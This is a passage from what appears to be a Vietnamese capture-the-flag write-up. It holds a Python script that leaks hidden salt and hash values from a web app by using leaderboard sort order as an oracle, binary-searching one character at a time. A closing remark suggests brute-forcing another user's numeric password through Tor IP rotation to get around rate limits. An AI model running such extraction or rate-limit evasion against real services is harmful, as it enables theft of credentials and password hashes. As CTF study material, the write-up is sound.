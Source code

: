 ```python=1
        mid = (low + high) // 2
        test_val = current + CHARS[mid]
        
        print(f"\rTesting: {test_val.ljust(64)}", end='', flush=True)
        
        if not update_field(test_val, field):
            time.sleep(1)
            continue
            
        top_user = get_leader(field)
        if not top_user:
            time.sleep(1)
            continue
            
        if top_user == 'Quan1':
            result_idx = mid
            low = mid + 1
        else:
            high = mid - 1
            
    return CHARS[result_idx] if result_idx >= 0 else None

def extract_value(field):
    length = 64 if field == 'hash' else 32
    known = ""
    
    for _ in range(length):
        next_char = find_next_char(known, field)
        if not next_char:
            break
        known += next_char
        print(f"\rProgress: {known.ljust(length)}")
    
    return known[:-1] + chr(ord(known[-1]) + 1) if known else ""

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="Extract hidden values using sort timing")
    parser.add_argument("--field", choices=["salt", "hash"], required=True, help="Target field to extract")
    args = parser.parse_args()

    print(f"[*] Extracting {args.field} value...")
    result = extract_value(args.field)
    
    if result:
        print(f"\n[+] Success! {args.field.capitalize()}: {result}")
    else:
        print("\n[-] Extraction failed")

```
>Thực ra bài này có thể bruteforce passwd của Dat2Phit bằng IP Rotated via Tor, từ 00000 đến 99999 thì sẽ ngốn nhiều thời gian nhưng đây là 1 cách để bypass rate limit cũng hay!
![image](https://hackmd.io/_uploads/SkjPUKc8xl.png)
